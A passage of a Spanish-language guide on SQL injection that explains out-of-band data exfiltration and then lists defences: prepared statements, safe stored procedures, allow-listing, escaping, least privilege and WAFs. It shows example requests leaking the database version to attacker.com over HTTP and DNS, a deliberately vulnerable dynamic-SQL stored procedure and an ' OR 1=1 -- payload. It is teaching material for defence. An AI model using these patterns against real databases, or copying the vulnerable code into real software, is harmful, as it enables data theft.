Por ejemplo, la base de datos de la víctima hará una solicitud HTTP similar a: http://attacker.com/capture?version=5.7.35

- DNS: El servidor de bases de datos realiza una consulta DNS al dominio controlado por el atacante. El atacante puede ver las consultas DNS que se envían al servidor controlado por él, y en esos registros de DNS podrá ver los datos exfiltrados, como la versión de MySQL o cualquier otra información solicitada en la consulta SQL.

En este caso, el servidor de la base de datos realiza una consulta a un dominio DNS como: 5.7.35.attacker.com

El atacante puede ver esta consulta en su servidor DNS y extraer la información.
----

[.text-center]
image::assets/oob/OOB.png[OOB]

<<<

== ¿Cómo prevenir?

=== 1. Parametrizar

Las consultas parametrizadas (prepared statements) con variables asociadas (variable binding), son la forma correcta para escribir sentencias SQL. Para ello se define primero todo el código SQL y después se asocia cada parámetro variable. Este tipo de construcción permite a la base de datos distinguir entre código (estructura) y datos (valores) sin importar qué entradas proporcionó un usuario.

Nuestra página está escrita con PHP usando solo una consulta sin preparar. Podemos observar en el siguiente ejemplo cómo sería una consulta preparada en PHP:

.Consulta preparada
[%collapsible]
====
[source,php]
----
<?php
$sentencia = $mbd->prepare("INSERT INTO REGISTRY (name, value) VALUES (:name, :value)");
$sentencia->bindParam(':name', $nombre);
$sentencia->bindParam(':value', $valor);

// insertar una fila
$nombre = 'uno';
$valor = 1;
$sentencia->execute();

// insertar otra fila con diferentes valores
$nombre = 'dos';
$valor = 2;
$sentencia->execute();
?>
----
====

=== 2. Procedimientos almacenados

Los procedimientos almacenados (stored procedures) pueden ayudar a limitar el riesgo asociado a la inyección de código SQL. Estos son código guardado en la base de datos que pueden verse como funciones reutilizables y de acceso rápido por el motor de base de datos. Los procedimientos almacenados también pueden comprobar el tipo de los parámetros de entrada, impidiendo que se introduzcan datos que incumplan el tipo que el campo está diseñado para recibir.

Sin embargo, si fueron programados de forma insegura con ejecución dinámica de SQL el problema seguirá allí. Podemos ver un ejemplo de esto:

.Procedimiento almacenado vulnerable
[%collapsible]
====
[source,sql]
----
CREATE PROCEDURE sp_getProductByCategory 
    @category VARCHAR(50)
AS
BEGIN
    SET NOCOUNT ON;
    
    DECLARE @query NVARCHAR(MAX);
    SET @query = 'SELECT * FROM products WHERE category = ''' + @category + ''' AND released = 1';
    EXECUTE sp_executesql @query;
END
----
====

Al crear una consulta internamente con un valor dinámico que afecta a la estructura, la situación es la misma que invocando SQL por programación. El procedimiento almacenado podría verse así con el parámetro como valor y no como parte de la estructura de la sentencia:

.Procedimiento almacenado 
[%collapsible]
====
[source,sql]
----
CREATE PROCEDURE sp_getProductByCategory 
    @category VARCHAR(50)
AS
BEGIN
    SET NOCOUNT ON;
    
    SELECT * FROM products WHERE category = @category AND released = 1;
END
----
====

=== 3. Validación contra valores permitidos 

Se usa cuando no se puede usar directamente una consulta parametrizada para protegernos contra inyecciones SQL. Esto pasa en ciertos casos donde el valor que viene del usuario no puede ir como parámetro, porque no es un dato como un número o texto, sino que se trata de partes estructurales de la consulta SQL. Por ejemplo, con el nombre de una tabla o columna, o si el orden en una cláusula ORDER BY será ascendente (ASC) o descendente (DESC). En esta situación la defensa más apropiada es validar las entradas de usuario y/o rediseño de la sentencia SQL.

No se debe permitir que el usuario escriba directamente un nombre de tabla o columna que se inserte tal cual en la consulta SQL, porque eso es muy peligroso. Un ejemplo de cómo validar sería usando un switch, como este ejemplo en PHP:

.White List
[%collapsible]
====
[source,php]
----
<?php
$unsafeUserParameter = $_GET['table'] ?? '';

$tableName = '';

// Validamos con una lista de opciones válidas
switch ($unsafeUserParameter) {
    case 'clients':
        $tableName = 'table_clients';
        break;
    case 'sellers':
        $tableName = 'table_sellers';
        break;
    ...
    default:
        throw new Exception("Valor inesperado proporcionado para el nombre de la tabla.");
>?
}

$query = "SELECT * FROM $tableName";
----
====

* Si el usuario manda el valor "clients", lo convierte a "table_clients".
* Si manda "sellers", lo convierte a "table_sellers".
* Si manda cualquier otro valor, lanzas un error.

De esta forma se asegura de que el nombre que se usa en la consulta sea uno de los que se controlan y no algo malicioso.

=== 4. Escapar todas las entradas de usuario 

Esta es una forma de protegerse contra inyecciones SQL, pero no es la más recomendada. De hecho, solo se debe usar si no se puede aplicar otras defensas mejores, como las consultas parametrizadas o la validación contra valores permitidos.

Escapar significa modificar (o transformar) los datos que vienen del usuario para que no puedan romper la consulta SQL ni ejecutar código malicioso. Por ejemplo, si un usuario escribe *' OR 1=1 --*, al escapar esa entrada, la comilla *'* y otros caracteres peligrosos se transforman en versiones seguras que se interpretan como texto normal y no como parte del código SQL.

Esto se puede realizar con bibliotecas en el caso de java. En el caso de Mysql, podemos ver lo siguiente:

Existen dos modos específicos para realizar esto en Mysql:

. *ANSI_QUOTES SQL*: Escapar todos los caracteres *'*, con *''*.

. *MySQL Mode* que hace lo siguiente:
----
NUL (0x00) --> \0
BS  (0x08) --> \b
TAB (0x09) --> \t
LF  (0x0a) --> \n
CR  (0x0d) --> \r
SUB (0x1a) --> \Z
"   (0x22) --> \"
%   (0x25) --> \%
'   (0x27) --> \'
\   (0x5c) --> \\
_   (0x5f) --> \_

todos los demás caracteres no alfanuméricos con valores ASCII
inferior a 256 --> \c donde 'c' es el carácter no alfanumérico original.
----

Otra forma de hacerlo más seguro es convertir el texto del usuario a hexadecimal. Si un atacante intentara inyectar con la típica comilla simple ' y un espacio, el SQL final se vería:

[source,sql]
----
SELECT * FROM products WHERE hex_encode(category) = '2720...'
----

27 es el código ASCII (en hexadecimal) de la comilla simple y 20 el del espacio en blanco. Como la transformación solo genera dígitos numéricos y letras de la A a la F, ningún caracter especial puede causar la inyección.

=== 5. Aplicar el mínimo privilegio:

El principio de menor privilegio consiste en otorgar a la cuenta de base de datos utilizada por una aplicación solo los permisos estrictamente necesarios para su funcionamiento, evitando el uso de cuentas con privilegios elevados como administrador. Esto reduce el impacto de un posible ataque de inyección SQL, ya que limita lo que un atacante podría hacer si lograra explotar la vulnerabilidad. 

Por ejemplo, si la app solo necesita leer datos, se deben otorgar solo permisos de lectura, evitando accesos innecesarios como modificación de tablas o ejecución de comandos críticos. También se recomienda no ejecutar el servicio de base de datos con permisos elevados en el sistema operativo.

=== 6. Web Application Firewall (WAF)

Cómo ya hemos visto en anteriores pecados vuelve a aparecer el WAF, ya que es una herramienta de seguridad que filtra, monitorea y bloquea tráfico HTTP identificado como malicioso que viaja hacia una aplicación que se intenta proteger. Obviamente, no hay que confiarse y apostar solo por esto, ya que los problemas raíz de la aplicación no se solucionan con un WAF y continuamente se hacen públicas técnicas de bypass para WAF de distintas tecnologías y proveedores. 

Esto es solo una herramienta complementaria -> https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF[SQL Injection Bypassing WAF].

----
"Si piensas que la tecnología puede resolver tus problemas de seguridad, entonces no entiendes los problemas ni entiendes la tecnología."

— Bruce Schneier
----